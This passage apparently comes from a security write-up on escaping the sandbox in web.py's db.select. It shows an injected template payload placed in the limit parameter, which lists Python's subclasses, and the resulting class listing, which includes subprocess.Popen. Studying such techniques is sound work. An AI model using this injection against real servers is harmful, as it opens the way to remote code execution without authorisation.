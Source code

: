 However, replacing the namespace doesn't prevent us to retrieve other exploitable classes. We just cannot directly use eval, `__import__` .... 

First, list all the classes through `[].__class__.__base__.__subclasses__()`:

`db.select('posts', limit="slowpoke ${[].__class__.__base__.__subclasses__()}", order='ups desc')`


```python
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <type 'time.struct_time'>, <type '_thread._localdummy'>, <type 'thread._local'>, <type 'thread.lock'>, <type 'collections.deque'>, <type 'deque_iterator'>, <type 'deque_reverse_iterator'>, <type 'operator.itemgetter'>, <type 'operator.attrgetter'>, <type 'operator.methodcaller'>, <type 'itertools.combinations'>, <type 'itertools.combinations_with_replacement'>, <type 'itertools.cycle'>, <type 'itertools.dropwhile'>, <type 'itertools.takewhile'>, <type 'itertools.islice'>, <type 'itertools.starmap'>, <type 'itertools.imap'>, <type 'itertools.chain'>, <type 'itertools.compress'>, <type 'itertools.ifilter'>, <type 'itertools.ifilterfalse'>, <type 'itertools.count'>, <type 'itertools.izip'>, <type 'itertools.izip_longest'>, <type 'itertools.permutations'>, <type 'itertools.product'>, <type 'itertools.repeat'>, <type 'itertools.groupby'>, <type 'itertools.tee_dataobject'>, <type 'itertools.tee'>, <type 'itertools._grouper'>, <class 'threading._Verbose'>, <type 'select.epoll'>, <type 'Struct'>, <type 'cStringIO.StringO'>, <type 'cStringIO.StringI'>, <class 'subprocess.Popen'>, <type 'datetime.date'>, <type 'datetime.timedelta'>, <type 'datetime.time'>, <type 'datetime.tzinfo'>, <class 'string.Template'>, <class 'string.Formatter'>, <type 'functools.partial'>, <type '_ssl._SSLContext'>, <type '_ssl._SSLSocket'>, <class 'socket._closedsocket'>, <type '_socket.socket'>, <type 'method_descriptor'>, <class 'socket._socketobject'>, <class 'socket._fileobject'>, <class 'urlparse.ResultMixin'>, <class 'contextlib.GeneratorContextManager'>, <class 'contextlib.closing'>, <type '_io._IOBase'>, <type '_io.IncrementalNewlineDecoder'>, <type '_hashlib.HASH'>, <type '_random.Random'>, <type 'cPickle.Unpickler'>, <type 'cPickle.Pickler'>, <class 'web.webapi.OK'>, <class 'web.webapi.Created'>, <class 'web.webapi.Accepted'>, <class 'web.webapi.NoContent'>, <class 'web.db.SQLParam'>, <class 'web.db.SQLQuery'>, <type 'bz2.BZ2File'>, <type 'bz2.BZ2Compressor'>, <type 'bz2.BZ2Decompressor'>, <type 'pwd.struct_passwd'>, <type 'grp.struct_group'>, <class 'web.template.SafeVisitor'>, <class 'web.template.TemplateResult'>, <class 'web.form.Form'>, <class 'web.form.Input'>, <class 'web.session.Session'>, <type 'sqlite3.Row'>, <type 'sqlite3.Cursor'>, <type 'sqlite3.Connection'>, <type 'sqlite3Node'>, <type 'sqlite3.Cache'>, <type 'sqlite3.Statement'>, <type 'sqlite3.PrepareProtocol'>]

```

